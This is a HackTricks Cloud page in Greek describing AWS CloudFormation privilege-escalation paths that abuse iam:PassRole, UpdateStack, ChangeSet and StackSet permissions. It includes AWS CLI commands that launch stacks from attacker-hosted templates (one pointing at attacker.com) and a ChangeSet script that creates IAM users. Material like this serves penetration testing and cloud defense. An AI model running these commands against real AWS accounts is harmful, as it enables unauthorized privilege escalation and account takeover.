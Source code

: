 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Για περισσότερες πληροφορίες σχετικά με το cloudformation, ελέγξτε:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ένας επιτιθέμενος με αυτές τις άδειες **μπορεί να κλιμακώσει τα προνόμια** δημιουργώντας ένα **CloudFormation stack** με ένα προσαρμοσμένο πρότυπο, φιλοξενούμενο στον διακομιστή τους, για να **εκτελέσει ενέργειες υπό τις άδειες ενός καθορισμένου ρόλου:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Στην παρακάτω σελίδα έχετε ένα **παράδειγμα εκμετάλλευσης** με την επιπλέον άδεια **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που καθορίζεται.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Σε αυτή την περίπτωση μπορείτε να **καταχραστείτε μια υπάρχουσα στοίβα cloudformation** για να την ενημερώσετε και να κλιμακώσετε τα προνόμια όπως στο προηγούμενο σενάριο:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που έχει καθοριστεί.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Εάν έχετε αυτή την άδεια αλλά **όχι `iam:PassRole`**, μπορείτε ακόμα να **ενημερώσετε τα stacks** που χρησιμοποιούνται και να εκμεταλλευτείτε τους **IAM Ρόλους που έχουν ήδη συνημμένους**. Ελέγξτε την προηγούμενη ενότητα για παράδειγμα εκμετάλλευσης (απλά μην υποδείξετε κανέναν ρόλο στην ενημέρωση).

Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που έχει ήδη συνημμένο.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ένας επιτιθέμενος με άδειες να **περάσει έναν ρόλο και να δημιουργήσει & εκτελέσει ένα ChangeSet** μπορεί να **δημιουργήσει/ενημερώσει ένα νέο cloudformation stack και να εκμεταλλευτεί τους ρόλους υπηρεσίας cloudformation** ακριβώς όπως με το CreateStack ή UpdateStack.

Η παρακάτω εκμετάλλευση είναι μια **παραλλαγή του**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) χρησιμοποιώντας τις **άδειες ChangeSet** για να δημιουργήσει ένα stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδειες `ChangeSet`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc σε ρόλους υπηρεσίας cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Αυτό είναι όπως η προηγούμενη μέθοδος χωρίς να περάσετε **ρόλους IAM**, οπότε μπορείτε απλά να **καταχραστείτε αυτούς που είναι ήδη συνδεδεμένοι**, απλά τροποποιήστε την παράμετρο:
```
--change-set-type UPDATE
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που είναι ήδη συνημμένος.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτές τις άδειες για να δημιουργήσει/ενημερώσει StackSets για να εκμεταλλευτεί αυθαίρετους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους ρόλους υπηρεσίας cloudformation.

### `cloudformation:UpdateStackSet`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτή την άδεια χωρίς την άδεια passRole για να ενημερώσει StackSets για να εκμεταλλευτεί τους συνημμένους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους συνημμένους ρόλους cloudformation.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
